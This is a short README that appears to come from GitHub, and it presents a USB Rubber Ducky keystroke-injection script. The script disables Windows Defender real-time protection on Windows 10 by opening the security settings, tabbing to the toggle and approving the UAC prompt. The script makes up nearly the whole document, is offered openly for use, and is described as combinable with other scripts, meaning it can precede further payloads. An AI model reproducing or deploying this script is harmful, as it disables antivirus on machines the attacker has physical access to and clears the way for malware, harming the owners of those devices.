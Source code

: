 # A ducky script that disables Windows Defender Real Time Protection
## Date : 04-10-2021

NOTE: This Code is Tested on Windows 10, 19043.1288 OS Build

Most older machines will probably need more delay

This can be combined with other scripts. 

```
REM Author : @krishnachaittanyah
REM This Script Will Disable Real Time Protection
REM *********************
REM We're going to disable Real Time Protection
REM *********************
DELAY 1000
GUI 
DELAY 500
STRING virus & threat protection
ENTER
DELAY 3000
TAB 
TAB
TAB
TAB
DELAY 200
ENTER
DELAY 200
SPACE 
DELAY 3000
ALT y
```